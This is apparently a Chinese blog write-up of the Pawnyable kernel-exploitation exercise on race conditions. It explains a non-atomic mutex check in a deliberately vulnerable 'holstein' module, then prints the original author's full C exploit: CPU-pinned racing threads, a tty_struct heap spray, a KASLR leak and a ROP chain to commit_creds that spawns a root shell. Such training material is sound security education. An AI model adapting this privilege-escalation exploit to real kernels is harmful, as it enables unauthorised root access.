

## 前言
本篇博客为Pawnyable第四个专题——条件竞争漏洞的利用。

## 题目分析
本题目依旧是保护全开
```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 64M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on kaslr" \
    -no-reboot \
    -cpu qemu64,+smap,+smep \
    -smp 2 \
    -monitor /dev/null \
    -initrd rootfs.cpio \
    -net nic,model=virtio \
    -net user
```
分析一下vuln.ko文件，只有open和close与上一题UAF利用中的不同


可以看到在open和close函数中加了一个奇怪的全局变量mutex。，同样存在UAF漏洞，但是mutex的存在让我们UAF的利用变得困难起来。
这实际上是想要限制我们在close之前再次open，即这是一个想要限制我们使用UAF的保护尝试。
## 攻击思路
然而，学过并发保护锁的知识告诉我们，并发安全需要我们对互斥变量的访问使用原子操作保护，然而这里却并没有，在理论上存在竞争的可能性，若在一个线程open时刚过了check mutex的检查，在修改mutex时第二个线程也进行了check，就会出现条件竞争的可能性。
在利用时，我们需要采用多线程open，尝试触发条件竞争漏洞，为了便于竞争，可以起两个open的线程，分别将其绑定到不同的cpu核心上，采用如下代码可以实现
```C
  CPU_ZERO(&t1_cpu);
  CPU_ZERO(&t2_cpu);
  CPU_SET(0, &t1_cpu);
  CPU_SET(1, &t2_cpu);
  pthread_create(&th1, NULL, race, (void*)&t1_cpu);
  pthread_create(&th2, NULL, race, (void*)&t2_cpu);
  pthread_join(th1, NULL);
  pthread_join(th2, NULL);
```
```C
void* race(void *arg) {
  cpu_set_t *cpu_set = (cpu_set_t*)arg;
  if (sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set))
    fatal("sched_setaffinity");
  while (1) {
    ........
  }
  return NULL;
}
```
这里通过CPU_SET来设置掩码,将其对应到固定的cpu核心上，再通过sched_setaffinity来绑定。两个竞争线程分别绑到两个核心，可以增加竞争成功率。

还有一点值得注意，如何判断竞争成功了。这里原项目作者采用的方法很巧妙，根据文件描述符的值来确定。若竞争成功，意味着我们在没有close的情况下open了两次，那么最后一次打开的文件描述符是固定的，而若失败了，那么最大的文件描述符也一定没有这个固定的值大。
```C
  int fd1,fd2;
  fd1 = open("/tmp", O_RDONLY); 
  fd2 = open("/tmp", O_RDONLY); 
  close(fd1);
  close(fd2);
  printf("[+] next fds: %d, %d\n", fd1, fd2);
  while (1) {
    while (!race_win) {
      int fd = open("/dev/holstein", O_RDWR);
      if (fd == fd2) race_win = 1;
      if (race_win == 0 && fd != -1) close(fd);
    }
    if (write(fd1, "A", 1) != 1 || write(fd2, "A", 1) != 1) {
      close(fd1);
      close(fd2);
      race_win = 0;
    } else {
      puts("[+] race win!");
      break;
    }
    usleep(1000);
  }
```

再能够确认竞争成功后，就相当于我们又有了上个专题所介绍了UAF漏洞，依旧可以通过heap spray tty结构体来实现krop。
值得注意的是，我们竞争后fd2一定是后打开的那个文件，也就是被保存今g_buf中的，但我们不知道是哪个cpu上的，而slub分配器具有cpu核心的独立性，因此我们后续的heap spray也得在对应的核心上进行才行。
最终完整攻击脚本如下，这里直接贴出原作者的exp，写的很优雅：
```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sched.h>

unsigned long kbase, g_buf, current;
unsigned long user_cs, user_ss, user_rsp, user_rflags;

#define ofs_tty_ops 0xc3afe0
#define rop_push_rdx_add_prbxP41h_bl_pop_rsp_pop_rbp (kbase + 0x137da6)
#define rop_pop_rdi (kbase + 0x0b13c5)
#define rop_pop_rcx_rbx_rbp (kbase + 0x3006fc)
#define rop_mov_rdi_rax_rep_movsq (kbase + 0x65094b)
#define rop_bypass_kpti (kbase + 0x800e26)
#define addr_commit_creds (kbase + 0x0723e0)
#define addr_prepare_kernel_cred (kbase + 0x072580)

static void win() {
  char *argv[] = { "/bin/sh", NULL };
  char *envp[] = { NULL };
  write(1, "[+] win!\n", 9);
  execve("/bin/sh", argv, envp);
}

static void save_state() {
  asm(
      "movq %%cs, %0\n"
      "movq %%ss, %1\n"
      "movq %%rsp, %2\n"
      "pushfq\n"
      "popq %3\n"
      : "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
      :
      : "memory");
}

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}

pid_t gettid(void) {
  return syscall(SYS_gettid);
}

int race_win = 0;
int fd1, fd2;

void* race(void *arg) {
  cpu_set_t *cpu_set = (cpu_set_t*)arg;
  if (sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set))
    fatal("sched_setaffinity");

  while (1) {
    // どちらかのスレッドでfdが4になるまで競合を試みる
    while (!race_win) {
      int fd = open("/dev/holstein", O_RDWR);
      if (fd == fd2) race_win = 1;
      if (race_win == 0 && fd != -1) close(fd);
    }

    // 相手スレッドが偶然行き違いでfdをcloseしていないことを確認
    if (write(fd1, "A", 1) != 1 || write(fd2, "A", 1) != 1) {
      // 失敗
      close(fd1);
      close(fd2);
      race_win = 0;
    } else {
      // 成功
      puts("[+] race win!");
      break;
    }
    usleep(1000);
  }

  return NULL;
}

void* spray_thread(void *arg) {
  cpu_set_t *cpu_set = (cpu_set_t*)arg;
  if (sched_setaffinity(gettid(), sizeof(cpu_set_t), cpu_set))
    fatal("sched_setaffinity");

  long x;
  long spray[800];

  for (int i = 0; i < 800; i++) {
    usleep(10);
    // tty_structのspray
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1) {
      for (int j = 0; j < i; j++)
        close(spray[j]);
      return (void*)-1;
    }

    if (read(fd2, &x, sizeof(long)) == sizeof(long) && x) {
      // ヒット
      for (int j = 0; j < i; j++)
        close(spray[j]);
      return (void*)spray[i];
    }
  }

  for (int i = 0; i < 800; i++)
    close(spray[i]);
  return (void*)-1;
}

int create_overlapped() {
  pthread_t th1, th2;
  char buf[0x10] = {};
  cpu_set_t t1_cpu, t2_cpu;

  CPU_ZERO(&t1_cpu);
  CPU_ZERO(&t2_cpu);
  CPU_SET(0, &t1_cpu);
  CPU_SET(1, &t2_cpu);

  // 次に空いているfdを取得
  fd1 = open("/tmp", O_RDONLY); 
  fd2 = open("/tmp", O_RDONLY); 
  close(fd1);
  close(fd2);
  printf("[+] next fds: %d, %d\n", fd1, fd2);

  // race
  pthread_create(&th1, NULL, race, (void*)&t1_cpu);
  pthread_create(&th2, NULL, race, (void*)&t2_cpu);
  pthread_join(th1, NULL);
  pthread_join(th2, NULL);

  // raceが成功したことを確認
  write(fd1, "Hello, World!", 14);
  read(fd2, buf, 14);
  if (strcmp(buf, "Hello, World!") != 0) {
    puts("[-] Bad luck!");
    exit(1);
  }
  memset(buf, 0, 14); // あとでspray成功判定に使うので空にしておく
  write(fd1, buf, 14);

  // Use-after-Freeの作成
  close(fd1);

  /* 複数コアでのHeap Spray */
  long victim_fd = -1;
  // CPU1で試す
  victim_fd = (long)spray_thread((void*)&t1_cpu);
  // CPU1で失敗したらCPU2を利用
  while (victim_fd == -1) {
    puts("[+] spraying on another CPU...");
    pthread_create(&th1, NULL, spray_thread, (void*)&t2_cpu);
    pthread_join(th1, (void*)&victim_fd);
  }

  printf("[+] overlap OK: victim=%d\n", (int)victim_fd);
  return victim_fd;
}

int main() {
  char buf[0x400] = {};

  save_state();

  // UAFでtty_structとfd2をオーバーラップさせる
  create_overlapped();

  // KASLRの回避
  read(fd2, buf, 0x400);
  kbase = *(unsigned long*)&buf[0x18] - ofs_tty_ops;
  g_buf = *(unsigned long*)&buf[0x38] - 0x38;
  if (kbase & 0xfff) {
    // アドレスがずれることがあるので修正
    puts("[-] Invalid leak! Fixing address...");
    kbase += 0x120;
  }
  printf("kbase = 0x%016lx\n", kbase);
  printf("g_buf = 0x%016lx\n", g_buf);

  // ROP chain
  unsigned long *chain = (unsigned long*)&buf;
  *chain++ = rop_pop_rdi;
  *chain++ = 0;
  *chain++ = addr_prepare_kernel_cred;
  *chain++ = rop_pop_rcx_rbx_rbp;
  *chain++ = 0;
  *chain++ = 0;
  *chain++ = 0;
  *chain++ = rop_mov_rdi_rax_rep_movsq;
  *chain++ = addr_commit_creds;
  *chain++ = rop_bypass_kpti;
  *chain++ = 0xdeadbeef;
  *chain++ = 0xdeadbeef;
  *chain++ = (unsigned long)&win;
  *chain++ = user_cs;
  *chain++ = user_rflags;
  *chain++ = user_rsp;
  *chain++ = user_ss;
  // 偽tty_operations
  *(unsigned long*)&buf[0x3f8] = rop_push_rdx_add_prbxP41h_bl_pop_rsp_pop_rbp;
  write(fd2, buf, 0x400);

  // UAFでtty_structとfd2をオーバーラップさせる
  int victim_ptmx = create_overlapped();

  // 関数テーブルのポインタを書き換える
  read(fd2, buf, 0x20);
  *(unsigned long*)&buf[0x18] = g_buf + 0x3f8 - 12*8;
  write(fd2, buf, 0x20);

  // RIP制御
  ioctl(victim_ptmx, 0, g_buf - 8); // rsp=rdx; pop rbp;
  puts("[-] Exploit failed...");

  return 0;
}
```